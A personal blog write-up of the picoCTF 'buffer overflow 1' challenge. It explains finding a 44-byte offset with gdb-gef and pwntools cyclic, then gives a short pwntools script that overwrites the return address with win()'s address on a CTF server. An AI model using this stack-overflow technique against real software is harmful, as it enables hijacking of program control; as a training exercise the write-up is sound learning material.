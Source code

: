 ```yaml
---
title: "Controlling Return Addresses with Buffer Overflows"
date: 2023-01-11T17:36:35-05:00
draft: false
tags: ["binary exploitation","reverse engineering"]
---
```

When I was younger, I was always fascinated with the idea of being able to break things digitally. However, I always believed that I was not smart enough to pursue this. In 2022, I have decided to start learning reverse engineering again! Starting out, I have started the Modern Binary Exploitation crackme files, and have been doing the picoCTF training ones as well. In this article I will cover picoCTF buffer-overflow1!

<!--more-->

### Start
Firstly, lets create a new directory called `bufferoverflow1` or whatever you would like to call it, then cd into that directory and wget both the vuln file and vuln.c file. Opening vuln.c with nano shows this:
![image](/img/1/p1.png)

It looks like buf is a character buffer with a size of 64 bytes. We also have a function called win, but win is never called... So how do we go about calling win? Well, firstly lets run vuln to see how it works. Mark it as executable with `chmod +x vuln` and then type `./vuln`
Entering any input should be fine here, so let's enter hello. After entering hello, we get the output:

```Okay, time to return... Fingers Crossed... Jumping to 0x804932f.``` 

Ok, so lets break this! Lets open gdb-gef (make sure you have gdb installed first then: [download gdb-gef](https://github.com/hugsy/gef)), and type `b main` to set a breakpoint at the main function. Then type `r` to resume.
![image](/img/1/p2.png)

We should be seeing something like this. Now what we can do is use pwntools (`pip install pwntools`) cyclic to generate a recognizable string for us. If we type `shell cyclic 64` and copy the output of that, we can type `c` again to continue. If we now paste in our string, and enter, we should see something like this:
![image](/img/1/p3.png)

If we look, we can see that vuln has been stopped at `0x61616c` with value `laaa`. If we now search for this pattern, using `search pattern 0x6161616c`, we can see two offsets. 44 for little endian and 41 for big endian. Just make note of these two for now. Now we need to get the address of the win function so that we can make our exploit redirect to the memory address of win. Type `x win` and note that as well. Lets exit gdb and type `file vuln`. The output tells us that vuln is an LSB executable and LSB corresponds to little endian, so vuln is in little endian. What is an endian you might ask? Well, endian is the way that our computers read and organize data. Little endian stores data with LSB first, and big endian stores data with MSB first. Ok, now we have our offset of 44. Now it is time to write out payload!

### Payload

These 9 lines are our entire payload! Let's go over what each line does.
![output](/img/1/p4.png)
1. `from pwn import *` — we import pwntools.
2. `payload = b'A'*44` — we make a variable: payload that contains the bytes of 44 A's.
3. `payload += p32(0x80491f6)` — we add the memory address of win, converted to little endian, to our payload.
4. `host, port = "saturn.picoctf.net", "[EXAMPLE_PORT]"` — we create two new variables named host and port. Put your port in example port.
5. `connection = remote(host, port)` — using pwntools remote, we create connection using our host and port.
6. `log.info(connection.recvS())` — log is used to make our output pretty, and we make log output connection.recvS(), and recvS means read data silently.
7. `connection.sendline(payload)` — we send our payload to our connection.
8. `log.success(connection.recvallS())` — if our log succeeds, output connection.recvallS(), which means read all bytes silently.
9. `connection.close()` — close our connection.

Alright, lets run this now! Going back to our terminal, we can type `python3 payload.py`:


Looking at our output, clearly everything worked smoothly. If we look, we can see that the program says time to jump with the memory address of `0x80491f6`. If we remember earlier, this is the memory address of win, which prints our flag!

### Conclusion
This was a very basic introduction to binary exploitation, and I hope to be able to cover more in the future!